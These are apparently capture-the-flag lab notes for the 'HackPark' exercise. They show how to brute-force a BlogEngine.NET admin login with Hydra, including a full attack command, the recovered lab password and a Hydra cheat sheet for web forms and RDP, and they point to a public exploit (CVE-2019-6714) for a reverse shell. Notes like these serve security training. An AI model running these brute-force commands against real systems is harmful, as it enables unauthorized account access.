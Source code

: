 # HackPark
* Hack Windows with Hydra, Remote Code Execution, and WinPEAS.
## Brute-force a login using Hydra
* Hydra is parallised, fast and flexible login cracker.
* Brute-forcing can be trying every password combination.
* Dictionary brute forcing iterates through a wordlist to obtain the password.
#### 1. Identify login page method.
* Web servers typically make two types of requests.
  * **GET** request used to request data.
  * **POST** used to send data.
1. Right click on login form.
2. **Inspect** element.
3. Enter any credentials and attempt to login
4. Read **Method** field value in **Network** tab.
* Can also identify this by intercepting traffic through BurpSuite.
#### 2. Use Hydra to brute force the login form.
* Login or Wordlist for Usernames = `admin`.
  * Internet search for "blogengine.net" default credentials returns "admin" / "admin".
* Password or Wordlist for Passwords = `/usr/share/wordlists/rockyou.txt`.
* IP address or Hostname = 10.10.85.185.
* HTTP Method (POST/GET) = `http-form-post`.
* Directory/Path to the Login Page = `/Account/login.aspx?ReturnURL=/admin`.
  * Request header **File** attribute.
* Request Body for Username/Password = `"ctl00$MainContent$LoginUser$UserName","ctl00$MainContent$LoginUser$Password","ctl00$MainContent$LoginUser$LoginButton"`
  * **Inspect Element** in browser.
  * **Network** tab of developer tools.
  * Attempt a login.
  * Right click on request > **Edit and Resend**.
  * **Request Body** contains entered username and password.
```
__VIEWSTATE=n2Y4BvVM5bhPxAiXh74eXb7%2F8bdFppITpAKoQzTYg%2F2Om8M2jGykZaw0JQHHB7hSlgHYkUTBvZKICSfpKgSGO7WToz%2F5w8knI%2BcOvKnYLsFIoll7jX6KwikzZLXashyviPyM9cozXH3WjB1ntR6ZDzvWtv11PxlYsmLCF4cBDmyAIQZ8wcagcXhF%2BssBYrpkopBVNWT03AkHUXHBVrSr%2BtiPAHdxdQJgEwOrY2c6otNnHWnwHZ8M%2FwlLhfplATLyIIfw00UzSNyS9IO7iuKLDQfvVv9SlS5LxbJj%2FZiOTaFIwfsvD8GYpSOmkxhb8mnfa46dJ5GYwACBfy1xWPRhtGbfz1gUOunVnQ1n9GjBPnqiWjiD&__EVENTVALIDATION=YN0knyrHqnj2RIDRzLwosbSl6DHwbB8zpiYoY%2FMw4N0J0gthwdTUm6moqRkULBrBukYlEAJq9Mwxc5Yfi4TBMemG8xjPaVMXN2P6AM0MY5ssFs2K93q4Xn4am8cO2wzdh3TMIbY%2BOifwxGGvHMA6RJIHcpVe%2FjrCVFdCaR2RjG%2FhIpRl&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=test&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
```
  * Replace entered username with `^USER^ to tell Hydra to enter words from wordlist in this position of the request.
  * Replace entered password with ^PASS^.
* Way to Identify Failed Attempts = `Login failed`.
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.85.185 http-form-post "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=n2Y4BvVM5bhPxAiXh74eXb7%2F8bdFppITpAKoQzTYg%2F2Om8M2jGykZaw0JQHHB7hSlgHYkUTBvZKICSfpKgSGO7WToz%2F5w8knI%2BcOvKnYLsFIoll7jX6KwikzZLXashyviPyM9cozXH3WjB1ntR6ZDzvWtv11PxlYsmLCF4cBDmyAIQZ8wcagcXhF%2BssBYrpkopBVNWT03AkHUXHBVrSr%2BtiPAHdxdQJgEwOrY2c6otNnHWnwHZ8M%2FwlLhfplATLyIIfw00UzSNyS9IO7iuKLDQfvVv9SlS5LxbJj%2FZiOTaFIwfsvD8GYpSOmkxhb8mnfa46dJ5GYwACBfy1xWPRhtGbfz1gUOunVnQ1n9GjBPnqiWjiD&__EVENTVALIDATION=YN0knyrHqnj2RIDRzLwosbSl6DHwbB8zpiYoY%2FMw4N0J0gthwdTUm6moqRkULBrBukYlEAJq9Mwxc5Yfi4TBMemG8xjPaVMXN2P6AM0MY5ssFs2K93q4Xn4am8cO2wzdh3TMIbY%2BOifwxGGvHMA6RJIHcpVe%2FjrCVFdCaR2RjG%2FhIpRl&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -vV
```
* Valid credentials discovered.
```
[80][http-post-form] host: 10.10.85.185   login: admin   password: 1qaz2wsx
```
* Hydra mini cheatsheet.
| Command | Description
| --- | ---
| `hydra -P <wordlist> -v <ip> <protocol> | Brute force against specific protocol.
| `hydra -v -V -L <username list> -P <password list> -t ` -u <p> <protocol>` | Bruteforce usernames. Loops through every combination in the lists.  `-v -V` verbose mode showing login attempts.
| `hydra -t 1 -V -f -l <username> -P <password list> rdp://<ip>` | Bruteforce Windows Remote Desktop using password list.
| `hydra -l <username> -P <password list> $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'` | Craft more specific request to bruteforce.
## Compromise the target
* Identify and execute public exploit to gain initial access to Windows target.
* [Exploit-Database](http://www.exploit-db.com/) is Common Vulnerability and Exposures (CVE) archive of public exploits.
  * Used by pentesters and vulnerability researchers.
  * Owned by Offensive Security.
* Log into blogengine.net website on target using bruteforces credentials.
* Burger menu > About shows version as 3.3.6.0.
* [Identify exploit from Exploit Database](https://www.exploit-db.com/exploits/46353) to gain reverse shell.
  * Application is vulnerable to [CVE-2019-6714](https://nvd.nist.gov/vuln/detail/CVE-2019-6714).
* 
## Windows Privilege Escalation
## Privilege Escalation Without Metasploit
